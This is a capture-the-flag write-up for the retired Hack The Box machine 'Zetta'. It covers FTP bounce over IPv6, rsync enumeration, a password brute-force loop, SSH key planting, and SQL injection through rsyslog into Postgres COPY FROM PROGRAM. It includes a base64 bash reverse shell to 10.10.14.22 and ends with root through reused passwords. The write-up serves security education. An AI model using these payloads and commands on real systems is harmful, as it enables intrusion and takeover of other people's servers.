

# Zetta

This is the write-up for the box Zetta that got retired at the 22nd February 2020.
My IP address was 10.10.14.22 while I did this.

Let's put this in our hosts file:
```markdown
10.10.10.156    zetta.htb
```

## Enumeration

Starting with a Nmap scan:

```
nmap -sC -sV -o nmap/zetta.nmap 10.10.10.156
```

```
PORT   STATE SERVICE VERSION
21/tcp open  ftp     Pure-FTPd
22/tcp open  ssh     OpenSSH 7.9p1 Debian 10 (protocol 2.0)
| ssh-hostkey:
|   2048 2d:82:60:c1:8c:8d:39:d2:fc:8b:99:5c:a2:47:f0:b0 (RSA)
|   256 1f:1b:0e:9a:91:b1:10:5f:75:20:9b:a0:8e:fd:e4:c1 (ECDSA)
|_  256 b5:0c:a1:2c:1c:71:dd:88:a4:28:e0:89:c9:a3:a0:ab (ED25519)
80/tcp open  http    nginx
|_http-title: Ze::a Share
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

## Checking HTTP (Port 80)

The web page imitates a company homepage with the name _"Ze::a Share"_ and sells storage services with FTP.
An important information could be the following product description:
```
We support native FTP with FXP enabled. We also support RFC2428.
```

They also disclose a username and password on the website to start the sharing:



```
- Username: cxtLMzkL9DZsFXhyuUSOceESmYbaOVr4
- Password: cxtLMzkL9DZsFXhyuUSOceESmYbaOVr4
```

As there is an open FTP service, the credentials may be work there.

## Checking FTP (Port 21)

Login into the FTP service with the credentials:
```
ftp 10.10.10.156
```
```
Connected to 10.10.10.156.
220---------- Welcome to Pure-FTPd [privsep] [TLS] ----------
220-You are user number 1 of 500 allowed.
220-Local time is now 13:48. Server port: 21.
220-This is a private system - No anonymous login
220-IPv6 connections are also welcome on this server.
220 You will be disconnected after 15 minutes of inactivity.
Name (10.10.10.156:root): cxtLMzkL9DZsFXhyuUSOceESmYbaOVr4
331 User cxtLMzkL9DZsFXhyuUSOceESmYbaOVr4 OK. Password required
Password:

230-This server supports FXP transfers
230-OK. Current restricted directory is /
230-0 files used (0%) - authorized: 10 files
230 0 Kbytes used (0%) - authorized: 1024 Kb
Remote system type is UNIX.
Using binary mode to transfer files.
```

The credentials work and there is one hidden file called _.ftpquota_ in there:
```
ftp> dir -a
200 PORT command successful
150 Connecting to port 60593
drwxr-xr-x    2 65534      nogroup          4096 May  1 13:48 .
drwxr-xr-x    2 65534      nogroup          4096 May  1 13:48 ..
-rw-------    1 65534      nogroup             0 May  1 13:48 .ftpquota
```

Unfortunately it is prohibited to download it:
```
ftp> get .ftpquota
local: .ftpquota remote: .ftpquota
200 PORT command successful
553 Prohibited file name: .ftpquota
```

It is possible to upload files, but there is no possibility to exploit something with that ability:
```
ftp> put test
local: test remote: test
200 PORT command successful
150 Connecting to port 33771
226-1 files used (10%) - authorized: 10 files
226-0 Kbytes used (0%) - authorized: 1024 Kb
226 File successfully transferred
```

On the FTP login banner and on the website, it says that it supports **FXP** transfers.
This stands for [File eXchange Protocol](https://en.wikipedia.org/wiki/File_eXchange_Protocol) and is a way to command two FTP servers to transfer files between each other for the purpose of low-bandwidth connections from clients.

There is a risk running this architecture called [FTP bounce attack](https://en.wikipedia.org/wiki/FTP_bounce_attack) that can be exploited by connecting to the server and executing a `PORT` command to tell the FTP server to connect somewhere else and thus port scanning the local box or other boxes and enumerating the internal server.

On the website it also shows that they support [RFC2428](https://tools.ietf.org/html/rfc2428), which is an FTP extension for IPv6 and NATs.
The `EPRT` command allows to specify and extended address with the following format:
```
EPRT<space><d><net-prt><d><net-addr><d><tcp-port><d>
```

As the FTP banner shows that IPv6 connections are welcome, these two technologies have to be combined to exploit the FTP service.

### FTP Bounce Attack

Connecting to FTP via `nc` and configuring the **FXP transfer** with the `EPRT` command:
```
nc 10.10.10.156 21

USER cxtLMzkL9DZsFXhyuUSOceESmYbaOVr4
331 User cxtLMzkL9DZsFXhyuUSOceESmYbaOVr4 OK. Password required

PASS cxtLMzkL9DZsFXhyuUSOceESmYbaOVr4

EPRT |2|dead:beef:2::1014|9001
```

Starting an IPv6 listener on my local client:
```
ncat -6 -lvnp 9001
```

Listing the files and getting the IPv6 address:
```
LIST
```

Output on the listener:
```
Ncat: Listening on :::9001
Ncat: Connection from dead:beef::250:56ff:feb9:1652.
Ncat: Connection from dead:beef::250:56ff:feb9:1652:57502.
-rw-r--r--    1 65534      nogroup             0 May  2 11:28 test
```

> NOTE: It will only show the IPv6 connection, if there are files in the directory.

Now lets port scan the IPv6 address for listening ports:
```
nmap -p- -o nmap/zetta_ipv6_allports -6 dead:beef::250:56ff:feb9:1652
```
```
PORT     STATE SERVICE
21/tcp   open  ftp
22/tcp   open  ssh
80/tcp   open  http
8730/tcp open  unknown
```

Running **Nmap scripts** on port 8730:
```
nmap -sC -sV -p 8730 -6 dead:beef::250:56ff:feb9:1652
```
```
PORT     STATE SERVICE VERSION
8730/tcp open  rsync   (protocol version 31)

Host script results:
| address-info:
|   IPv6 EUI-64:
|     MAC address:
|       address: 00:50:56:b9:16:52
|_      manuf: VMware
```

It identified an **rsync** service on port 8730 on the IPv6 address.

## Checking rsync (Port 8730)

The service [rsync](https://en.wikipedia.org/wiki/Rsync) is a utility for transferring and synchronizing files between computers.

Connecting to the **rsync** service with `ncat`:
```
nc -6 dead:beef::250:56ff:feb9:1652 8730

@RSYNCD: 31.0
(...)
```

Connecting to it with `rsync` and listing directories:
```
rsync rsync://[dead:beef::250:56ff:feb9:1652]:8730/ --list-only
```
```
bin             Backup access to /bin
boot            Backup access to /boot
lib             Backup access to /lib
lib64           Backup access to /lib64
opt             Backup access to /opt
sbin            Backup access to /sbin
srv             Backup access to /srv
usr             Backup access to /usr
var             Backup access to /var
```

It looks like the root file system of a Linux server and we are able to enumerate the file system.
```
rsync rsync://[dead:beef::250:56ff:feb9:1652]:8730/bin --list-only
rsync rsync://[dead:beef::250:56ff:feb9:1652]:8730/boot --list-only
rsync rsync://[dead:beef::250:56ff:feb9:1652]:8730/lib --list-only
(...)
```

All of the directories deny access, but by trying other typical directory names like _/etc/_, it will show the contents of that:
```
rsync rsync://[dead:beef::250:56ff:feb9:1652]:8730/etc --list-only
```

Synchronizing all files to our local client to enumerate them:
```
rsync rsync://[dead:beef::250:56ff:feb9:1652]:8730/etc rsync/etc -a -v
```

The configuration file of **rsync** can be found in _rsyncd.conf_ and it contains some interesting information:
```
[etc]
        comment = Backup access to /etc. Also used for cloud sync access.
        path = /etc
        # Do not leak .git repos onto the not so trusted slave servers in the cloud.
        exclude = .git
(...)
# NOTE: Need to get this into GitHub repository and use git for sync.
[home_roy]
        path = /home/roy
        read only = no
        # Authenticate user for security reasons.
        uid = roy
        gid = roy
        auth users = roy
        secrets file = /etc/rsyncd.secrets
        # Hide home module so that no one tries to access it.
        list = false
```

It excludes _.git_ files in _/etc_ and the path _/home/roy_ is readable with valid authentication, but the secrets file seems to be in _/etc/rsyncd.secrets_.
This file was not downloaded from the box, but when searching for it explicitly, it definitely exists:
```
rsync rsync://[dead:beef::250:56ff:feb9:1652]:8730/etc/rsyncd.secrets --list-only

-r--------             13 2019/07/27 12:43:25 rsyncd.secrets
```

When trying to download it, it denies permission:
```
rsync rsync://[dead:beef::250:56ff:feb9:1652]:8730/etc/rsyncd.secrets .

rsync: send_files failed to open "/rsyncd.secrets" (in etc): Permission denied (13)
```

In that case, we should write a script to brute-force the password of _roy_:
```bash
for pass in $(cat /usr/share/wordlists/rockyou.txt);
do
        export RSYNC_PASSWORD=$pass
        rsync -q rsync rsync://roy@[dead:beef::250:56ff:feb9:1652]:8730/home_roy --list-only 2>/dev/null

        if [[ $? -eq 0 ]]
        then
                echo "Pass: $pass"
                break
        fi
        echo "Pass $pass: $?"
done
```

After a while, it will find the password and it is:
> computer

Synchronizing all files in the home directory of _roy_ to our local client:
```
rsync rsync://roy@[dead:beef::250:56ff:feb9:1652]:8730/home_roy rsync/roy -a -v
```

As the configuration file _rsyncd.conf_ shows, the home directory of _roy_ is not only readable but also writable, which means we can upload a SSH key into it.

Creating _.ssh_ folder in _home_roy_:
```
mkdir rsync/roy/.ssh
```

Creating SSH key and modifying permissions accordingly:
```
ssh-keygen -f id_rsa

mv id_rsa.pub authorized_keys

chown 1000:1000 authorized_keys id_rsa

chmod 600 authorized_keys id_rsa
```

Uploading the new files to the box:
```
rsync -apv .ssh rsync://roy@[dead:beef::250:56ff:feb9:1652]:8730/home_roy
```
```
Password:
sending incremental file list
.ssh/
.ssh/authorized_keys
.ssh/id_rsa
```

Login with SSH:
```
ssh -i .ssh/id_rsa roy@10.10.10.156
```

It logs us in as the user _roy_.

## Privilege Escalation

In the home directory of _roy_ is an interesting XML file _/home/roy/.tudu.xml_ that contains tasks like a To-Do list and the following information seems important:
```
(...)
<title>SYSLOG Server</title>
(...)
<todo done="no" collapse="no">
  <title>
    Rework syslog configuration to push all events to the DB
  </title>

(...)

<title>Security</title>
(...)
<todo done="no" collapse="no">
<title>
Change shared password scheme from <secret>@userid to something more secure.
</title>
(...)
```

It seems like that **Syslog** is running on the box and the installation path is in _/etc/rsyslog.d_.
In there is a _.git_ directory and by looking at the history, it shows that there are credentials in one of the commits:
```
git log -p
```
```
(...)
+template(name="sql-syslog" type="list" option.sql="on") {
+  constant(value="INSERT INTO syslog_lines (message, devicereportedtime) values ('")
+  property(name="msg")
+  constant(value="','")
+  property(name="timereported" dateformat="pgsql" date.inUTC="on")
+  constant(value="')")
+}
+
+# load module
+module(load="ompgsql")
+
+# Only forward local7.info for testing.
+local7.info action(type="ompgsql" server="localhost" user="postgres" pass="test1234" db="syslog" template="sql-syslog")
```

These credentials are for a **Postgres database** and by checking the local ports, the service seems to run on port 5432:
```
ss -lnpt

127.0.0.1:5432
```

Login into the Postgres database:
```
psql -h localhost -U postgres
```

Unfortunately the password does not work, but the git commit shows a vulnerability with which it is possible to control one of the properties by injecting invalid SQL commands.
As the user _roy_ is a member of _adm_, it is possible to read log files.

Lets send an invalid command to the database with `logger` while looking at the log file _/var/log/postgresql/postgresql-11-main.log_:
```
logger -p local7.info "test'"
```
```
tail -f /var/log/postgresql/postgresql-11-main.log

(...)
[1908] postgres@syslog STATEMENT:  INSERT INTO syslog_lines (message, devicereportedtime) values (' test\'','2021-05-06 17:45:42')
```

In the log file's error message is the single quote and the string that gets injected and that can be abused to run commands:
```
logger -p local7.info "',null); DROP TABLE IF EXISTS test; CREATE TABLE test(cmd_output text); COPY test FROM PROGRAM \$$ ping -c 1 10.10.14.22 \$$;-- -"
```

The listener on my box accepts the ICMP packet and proofs command execution.

Encoding a reverse shell command into _Base64_:
```
echo -n 'bash -i >& /dev/tcp/10.10.14.22/9001 0>&1' | base64

YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNC4yMi85MDAxIDA+JjE=
```

Using the **SQL Injection vulnerability** to start a reverse shell connection:
```
logger -p local7.info "',null); DROP TABLE IF EXISTS test; CREATE TABLE test(cmd_output text); COPY test FROM PROGRAM \$$ echo \"echo -n YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNC4yMi85MDAx
IDA+JjE= | base64 -d | bash \" | bash \$$;-- -"
```

The listener on my IP and port 9001 starts a reverse shell connection as _postgres_.

### Privilege Escalation to root

In the **Posgres directory** is a hidden file called _/var/lib/postgresql/.psql_history_ and in this file are the credentials for the _postgres_ user:
```
(...)
ALTER USER postgres WITH PASSWORD 'sup3rs3cur3p4ass@postgres';
```

With these credentials, it is possible to log into the **Postgres database**:
```
psql -h localhost -U postgres
```

The password may be reused for the root user, but it does not work.
One of the notes in _.tudu.xml_ said, that the shared password scheme looks as the following:
```
<secret>@userid
```

So the password could be _sup3rs3cur3p4ass@root_ instead:
```
roy@zetta:~$ su -
```

By using the `su` command and using the password, we become root on the box!
